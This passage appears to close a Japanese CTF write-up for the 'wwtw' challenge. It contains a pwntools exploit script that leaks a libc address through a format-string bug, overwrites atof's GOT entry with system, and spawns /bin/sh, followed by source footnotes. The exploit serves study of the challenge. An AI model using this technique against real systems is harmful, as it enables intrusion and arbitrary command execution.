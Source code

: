 ``` python
    bin_base = ret - 0x1491

    def fill_spaces(payload):
        payload += ' '
        payload += ' ' * ((len(payload) + 3) // 4 * 4)
        index = 15 + len(payload) // 4 # %15$p is the beggning of payload
        return payload, index
    def write_char(b, c, ix):
        l = (ord(c) - b) % 256
        if l < 10:
            l += 256
        return '%{}d%{}$hhn'.format(l, ix)

    payload, ix = fill_spaces(another_tardis)
    payload += p32(bin_base + atof_got)
    payload += ' '
    ofs = len('Coordinate ') + len(payload)
    payload += '%{}$s'.format(ix)
    p.recvuntil('Coordinates: ')
    p.sendline(payload)
    p.recvline()
    resp = p.recvline()
    atof = u32(resp[ofs:ofs+4])
    libc_base = atof - atof_offset

    payload, ix = fill_spaces(another_tardis)
    payload += p32(bin_base + atof_got)
    payload += p32(bin_base + atof_got + 1)
    payload += p32(bin_base + atof_got + 2)
    payload += p32(bin_base + atof_got + 3)
    s = p32(libc_base + system_offset)
    payload += write_char(len(payload), s[0], ix)
    payload += write_char(   ord(s[0]), s[1], ix + 1)
    payload += write_char(   ord(s[1]), s[2], ix + 2)
    payload += write_char(   ord(s[2]), s[3], ix + 3)
    p.recvuntil('Coordinates: ')
    p.sendline(payload)

    p.recvuntil('Coordinates: ')
    p.sendline(',/bin/sh')

p = process('./wwtw')
recv_header(p)
solve_game(p)
p.sendline(tardis_key)
activate_tardis(p)
format_string_attack(p)
p.sendline('ls')
p.interactive()
```

---

[^1]: <http://charo-it.hatenablog.jp/entry/2015/05/19/114004>
[^2]: <http://stackoverflow.com/questions/16302575/distinguish-shared-objects-from-position-independent-executables>
[^3]: <https://ezoeryou.github.io/blog/article/2015-04-16-PIC.html>
[^4]: <http://7shi.hateblo.jp/entry/2013/05/25/103050>
[^5]: 1byte漏らしてるのはすぐに気付けたけど、これがsocketを上書きしてることは気付けませんでした。writeupを見ました。
[^6]: libcはuploadされてないだけで本番は与えられていたのかな、と思っていたけどそうではなかったらしい。